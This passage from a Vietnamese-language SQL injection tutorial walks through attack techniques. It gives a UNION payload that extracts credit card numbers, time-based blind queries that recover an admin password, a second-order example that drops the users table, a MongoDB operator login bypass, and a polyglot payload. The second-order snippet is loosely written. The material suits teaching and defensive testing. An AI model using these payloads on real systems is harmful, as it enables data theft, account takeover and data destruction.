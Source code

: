 **Attack:**
```
https://shop.com/product?category=electronics' UNION SELECT null,credit_card_number,null,null FROM payments--
```

Result: Tất cả credit card numbers được hiển thị trên trang sản phẩm!

### Scenario 3: "Time-based Blind Attack"

Khi không thể thấy output trực tiếp:
```sql
-- Kiểm tra độ dài password của admin
' AND IF(LENGTH((SELECT password FROM users WHERE username='admin'))>10,SLEEP(5),0)--

-- Kiểm tra từng ký tự
' AND IF(ASCII(SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1))>65,SLEEP(5),0)--
```

## Advanced SQL Injection Techniques: "Ninja Level"

### **Second-Order SQL Injection**
*"Kẻ thù nằm vùng"*

Input độc hại được lưu trữ trong database và executed sau đó:

```php
// Lần 1: Lưu payload vào database
INSERT INTO users (username, email) VALUES ('admin', 'test@test.com'); DROP TABLE users;--')

// Lần 2: Khi query này chạy...
$query = "SELECT * FROM logs WHERE user = '" . $user['username'] . "'";
// Boom! Table users bị xóa
```

### **NoSQL Injection**
*"Thời đại mới, kỹ thuật mới"*

Với MongoDB:
```javascript
// Vulnerable
db.users.find({username: req.body.username, password: req.body.password})

// Attack payload
{
  "username": {"$gt": ""},
  "password": {"$gt": ""}
}
```

### **Polyglot Payloads**
*"Một mũi tên trúng nhiều đích"*

Payload hoạt động trên multiple database systems:
```sql
'||(SELECT CHR(65)||CHR(66)||CHR(67))||'
```
